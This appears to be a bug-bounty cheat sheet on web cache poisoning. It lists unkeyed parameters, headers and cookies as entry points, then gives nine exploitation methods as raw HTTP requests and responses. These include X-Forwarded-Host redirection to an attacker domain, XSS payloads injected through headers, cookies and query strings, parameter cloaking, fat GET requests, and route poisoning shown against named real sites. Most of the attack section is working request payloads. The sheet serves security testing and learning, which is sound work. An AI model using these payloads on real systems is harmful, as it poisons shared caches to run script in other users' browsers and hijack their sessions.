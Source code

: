 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
* Parameter with Cache (unkeyed) and its value reflected in Response   
* Header with Cache (unkeyed) and its value reflected in Response   
* Cookie with Cache (unkeyed) and its value reflected in Response   

## Impact
* Session Hijacking (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md) + [XSS](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md))
* Password Steal (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md))
* Session Hijacking (Web Cache Poisoning + Parameter + [XSS](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md))
* Session Hijacking (Web Cache Poisoning + Http Parameter Pollution + [XSS](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md))

## How to exploit
Note: Cache-Control: public, no-cache or X-cache: miss, hit
Note: remove cache-buster, after cache hit to work bellow method
1. Basic Header poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil-website.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Basic Cookie poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
Cookie: sid=a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
X-Cache: miss, hit
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

3. Multiple Header poisoning
```
GET /<PATH> HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Scheme: nothttps

### Response:
HTTP/1.1 301 Moved Permanently
Location: https://evil-website.com/<PATH>
```

4. User-agent Selective poisoning (unknown header)
```
GET / HTTP/1.1
Host: www.vuln.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>

### Response:
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

5. query parameter poisoning
```
GET /?utm_content='/><script>alert(1)</script> HTTP/1.1
Host: www.vuln.com

### Response:
HTTP/1.1 200 OK
X-Cache: miss, hit
…
<href="https://www.vuln.com/?utm_content='/><script>alert(1)</script>">
```

6.Parameter cloaking (Web Cache Poisoning + Http Parameter Pollution)
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
Host: www.vuln.com

### Response:
HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
alert(1)({"country" : "United Kingdom"})
```

7.fat GET request
```
GET /js/geolocate.js?callback=setCountryCookie
…
callback=alert(1)

### Response:
HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
alert(1)({"country" : "United Kingdom"})
```

8. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil

### Response:
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

### Response:
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

9. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil

### Response:
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io

### Response:
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)
